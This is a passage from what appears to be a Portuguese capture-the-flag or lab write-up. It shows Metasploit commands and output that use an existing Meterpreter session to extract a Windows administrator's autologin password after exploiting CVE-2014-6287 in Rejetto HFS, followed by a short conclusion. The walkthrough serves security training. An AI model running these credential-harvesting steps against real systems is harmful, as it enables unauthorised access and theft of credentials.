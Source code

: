 ```bash
meterpreter > background 
[*] Backgrounding session 3...
msf6 exploit(multi/handler) > use post/windows/gather/credentials/windows_autologin
msf6 post(windows/gather/credentials/windows_autologin) > show options 

Module options (post/windows/gather/credentials/windows_autologin):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on
```

Esse módulo apenas requer a opção `SESSION` com o número da sessão que o `Meterpreter` está rodando, então vamos configurar essa opção com o comando `set`:

```bash
msf6 post(windows/gather/credentials/windows_autologin) > set SESSION 3
SESSION => 3
```

E agora vamos executar o módulo de exploração com o comando `run`:

```bash
msf6 post(windows/gather/credentials/windows_autologin) > run

[*] Running against ATTACKDEFENSE on session 3
[+] AutoAdminLogon=1, DefaultDomain=ATTACKDEFENSE, DefaultUser=Administrator, DefaultPassword=hello_attackdefense
[*] Post module execution completed
```

Então, como podemos ver, o módulo de exploração nos retornou as credenciais de autenticação do usuário administrador do sistema alvo.

---

<div class="page"/>

## **<a id="7">• Dificuldades.</a>**

*Nenhuma dificuldade relevante =}* 

---

## **<a id="8">• Conclusão.</a>**

### **• (CVE-2014-6287)**

 A vulnerabilidade Rejetto HTTP File Server, identificada pela CVE-2014-6287, é um exemplo de como as falhas de segurança em softwares amplamente utilizados podem ter consequências graves para a privacidade e segurança dos usuários. Através dessa vulnerabilidade, um invasor poderia executar código malicioso em um sistema remoto, sem a necessidade de autenticação. Felizmente, a vulnerabilidade foi descoberta e corrigida antes que pudesse ser explorada em grande escala. No entanto, essa situação serve como um lembrete de que a segurança cibernética é um esforço contínuo e que é importante que os usuários se mantenham informados sobre as últimas ameaças e vulnerabilidades, e apliquem as atualizações de segurança recomendadas pelos desenvolvedores de software.
